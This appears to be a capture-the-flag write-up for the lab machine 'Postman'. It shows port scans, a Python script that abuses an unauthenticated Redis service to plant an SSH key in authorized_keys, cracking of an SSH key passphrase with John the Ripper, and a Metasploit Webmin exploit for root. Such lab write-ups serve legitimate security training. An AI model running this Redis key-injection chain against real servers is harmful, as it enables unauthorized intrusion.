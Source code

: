 ## Recon
#### Masscan
```
$ sudo masscan -p1-65535 10.10.10.160 --rate 1000 ---open --banners -e tun0

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-11-05 21:48:57 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.10.10.160                                    
Discovered open port 22/tcp on 10.10.10.160                                    
Discovered open port 6379/tcp on 10.10.10.160                                  
Discovered open port 10000/tcp on 10.10.10.160
```

#### NMAP on open ports
```
$ nmap -sC -sV -oN postman.nmap -p 80,22,6379,10000 10.10.10.160
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-05 16:53 EST
Stats: 0:00:13 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.81% done; ETC: 16:53 (0:00:00 remaining)
Nmap scan report for postman.htb (10.10.10.160)
Host is up (0.13s latency).

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I found a remote command execution exploit for `redis 4.0.9`
https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

Generate key pair and executed python code to write my public key to authorized_keys
```python
import os
os.system("redis-cli -h 10.10.10.160 flushall")
os.system("(echo '\r\n\'; cat pub.txt; echo \'\r\n\') > pub_1.txt")
os.system("cat pub_1.txt | redis-cli -h 10.10.10.160 -x set cracklist")
os.system('redis-cli -h 10.10.10.160 config set dbfilename "backup.db"')
os.system('redis-cli -h 10.10.10.160 config set dir "/var/lib/redis/.ssh/"')
os.system('redis-cli -h 10.10.10.160 config set dbfilename "authorized_keys"')
os.system('redis-cli -h 10.10.10.160 save')
```
![](images/redis_ssh.png)

I found `id_rsa.bak` file mentioned in commmand in user's `.bash_history`. Cracking the password using JohnTheRipper we get password for key.
```
$ ssh2john id_rsa > matt_hash
```
![](images/john_ssh.png)

I was not able to ssh into box using key and password. But was able to do `su Matt` and login as Matt from existing connection.

I can also login to `webmin` portal at https://postman.htb:10000. I was also able to find exploit for webmin [CVE-2019-12840](https://www.exploit-db.com/exploits/46984)

#### Executing the exploit using metasploit to get root shell.

![](images/exploit_options.png)

![](images/exploit.png)